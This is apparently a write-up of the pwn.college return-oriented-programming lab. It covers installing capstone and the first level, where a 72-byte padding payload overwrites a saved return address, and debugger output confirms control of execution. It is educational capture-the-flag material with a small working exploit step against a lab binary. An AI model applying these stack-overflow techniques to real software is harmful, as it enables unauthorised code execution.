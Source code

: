 The following picture illustrates our ROP-chain:

![rop](https://devel0pment.de/wp-content/uploads/2018/02/rop-768x576.png)


[Source](https://devel0pment.de/?p=366)

Before running pwn.college challenges they need `libcapstone5`

You can install it -

```bash
git clone https://github.com/capstone-engine/capstone.git
cd capstone
git checkout 5.0.1
make
sudo make install
```

## Level 1.0 `babyrop_level1.0`

Overwrite a return address to trigger a win function!

In an early challenge, you're given a buffer overflow where the goal is to call a function like `win()`.

I decided to `scp` the binary `/challenge/babyrop_level1.0` into my local system. Then exploit it and then push the exploit after testing locally.

```bash
scp -i pwncollege_key hacker@pwn.college:/challenge/babyrop_level1.0 .
```

When we run the provided binary, it gives us a helpful message:

> _The saved return address is stored at `0x7fff98a800c8`, 72 bytes after the start of your input buffer._

This tells us that we need to **send 72 bytes** of input before we can overwrite the **saved return address** on the stack.

To confirm this, we can send a payload like:

```python
b"A" * 72 + b"B" * 8
```

This will:

- Fill the buffer with `A`s
- Overwrite the return address with `BBBBBBBB` (which is `0x4242424242424242` in little-endian)

```txt
...
 RBP  0x4141414141414141 ('AAAAAAAA')
 RSP  0x7ffedf5e7b58 ◂— 'BBBBBBBB\n'
 RIP  0x401dda (challenge+488) ◂— ret 
─────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────────────────────
 ► 0x401dda <challenge+488>    ret                                <0x4242424242424242>
    ↓

```
